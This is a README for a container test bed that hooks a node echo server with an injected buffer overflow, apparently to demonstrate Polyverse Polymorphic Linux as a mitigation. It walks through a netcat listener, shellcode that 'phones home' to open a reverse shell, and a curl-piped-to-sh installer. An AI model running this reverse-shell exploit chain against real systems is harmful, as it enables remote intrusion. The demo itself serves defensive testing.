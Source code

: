 # readhook-node-echo-server
Test bed for using readhook to hook node-echo-server application.
## Running
```sh
docker run -d --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server
```
## Stopping
```sh
docker kill echo
```
## Running interactively
```sh
docker run -it --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server /bin/sh
node echo-server.js
```
## Polyverse Polymorphic Linux
### 1: Setup Listener for Reverse Shell
#### 1.1: Shell-1: Start a listener for the remote shell to connect to
```sh
nc -kl 5555
```
### 2: Start Server with Readhook
#### 2.1: Shell-2: Start the container with an interactive shell
```sh
docker run -it --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server /bin/sh
```
#### 2.2: Shell-2: Run the echo-server with readhook in front of libc
```sh
LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
```
#### 2.3: Shell-3: Test that the echo-server is running as expected
```sh
curl localhost:8080/echo-this-line-of-text
```
### 3: Generate Shell-Code
#### 3.1: Shell-3: Generate the shell-code needed to "phone-home" to the listener on Shell-1
```sh
export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
```
#### 3.2: Shell-3: Send the shell-code to the OVERFLOW endpoint to check that it works.
```sh
curl localhost:8080/$shellCode
```
#### 3.3: Shell-1: Check that the overflow resulted in a remote shell
```sh
ls && whoami && exit
```
### 4: Install Polyverse Polymorphic Linux
#### 4.1: Shell-2: Add curl and Polyverse Distros
```sh
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```
#### 4.2: Shell-2: Update packages with Polymorphic Linux packages
```sh
sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
```
#### 4.3: Shell-2: Re-run the echo-server with basehook.so (only)
```sh
LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
```
#### 4.4: Shell-3: Test the shellCode with Polymorphic Linux
```sh
curl localhost:8080/$shellCode
```
#### 4.5: Shell 1: Confirm that nobody phoned-home to the listener
#### 4.6: Shell 2: Confirm that node terminated abnormally
